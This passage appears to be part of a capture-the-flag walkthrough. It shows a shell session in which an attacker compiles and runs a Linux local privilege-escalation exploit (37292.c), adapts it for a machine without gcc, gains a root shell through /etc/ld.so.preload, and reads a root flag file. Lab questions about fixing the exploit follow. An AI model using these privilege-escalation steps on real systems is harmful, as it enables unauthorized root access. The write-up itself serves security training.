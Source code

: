 ```
config.php
css
editor_plugin.js
editor_plugin_src.js
img
includes
rpc.php
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ gcc 37292.c -o exploit
gcc 37292.c -o exploit
The program 'gcc' is currently not installed. To run 'gcc' please ask your administrator to install the package 'gcc'
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ which cc
which cc
/usr/bin/cc
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ sed -i "s/gcc/cc/g" 37292.c
<.9/plugins/spellchecker$ sed -i "s/gcc/cc/g" 37292.            c
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ cc 37292.c -o exploit
cc 37292.c -o exploit
37292.c:94:1: warning: control may reach end of non-void function [-Wreturn-type]
}
^
37292.c:106:12: warning: implicit declaration of function 'unshare' is invalid in C99 [-Wimplicit-function-declaration]
        if(unshare(CLONE_NEWUSER) != 0)
           ^
37292.c:111:17: warning: implicit declaration of function 'clone' is invalid in C99 [-Wimplicit-function-declaration]
                clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
                ^
37292.c:117:13: warning: implicit declaration of function 'waitpid' is invalid in C99 [-Wimplicit-function-declaration]
            waitpid(pid, &status, 0);
            ^
37292.c:127:5: warning: implicit declaration of function 'wait' is invalid in C99 [-Wimplicit-function-declaration]
    wait(NULL);
    ^
5 warnings generated.
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ ./exploit
./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# cat /root/.flag.txt
Alec told me to place the codes here:

568628e0d993b1973adc718237da6e93

If you captured this make sure to go here.....
/006-final/xvf7-flag/

#
```

4. Fix the exploit to work with the system you're trying to exploit. Remember, enumeration is your key! What development tools are installed on the machine?
5. What is the root flag?
